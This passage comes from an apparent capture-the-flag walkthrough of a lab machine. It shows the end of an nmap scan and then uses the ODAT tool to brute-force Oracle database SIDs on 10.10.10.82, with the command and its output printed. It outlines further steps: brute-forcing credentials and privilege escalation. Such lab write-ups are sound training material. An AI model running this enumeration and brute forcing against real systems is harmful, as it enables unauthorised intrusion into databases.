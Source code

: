 
Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-08-03 12:12:21
|_  start_date: 2018-08-03 11:47:06

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 171.99 seconds
{% endhighlight %}

With the result of the previous scan, we were able to appreciate that this server probably has Windows Server 2008 R2 and on the other hand it has port 80 (Microsoft IIS httpd 8.5) is enabled.  
For this penetration test, we are going to focus on port 1521, which indicates to be an oracle-tns service.

# SID brute force
To continue, we will audit this Oracle database with the ODAT tool.  
**ODAT** It is an open source penetration test tool designed to attack and audit the security of Oracle Database servers.  
The following steps are:  
    - Enumerate Oracle Database Version
    - Discover SIDs (Basically oracles version a unique "database instance")
    - obtain a user account (likely through bruteforcing)
    - Exploitation / privesc as needed.
We can use ODAT’s siguesser to discover well:  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # ./odat.py sidguesser -s 10.10.10.82

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'SAMPLE' is a valid SID. Continue...
[+] 'SCAN4' is a valid SID. Continue...
[+] 'XE' is a valid SID. Continue...
[+] 'XEXDB' is a valid SID. Continue...
100% |##############################################| Time: 00:10:55
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |##############################################| Time: 00:00:12
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...
100% |##############################################| Time: 00:07:31
[+] SIDs found on the 10.10.10.82:1521 server: SAMPLE,SCAN4,XE,XEXDB
{% endhighlight %}
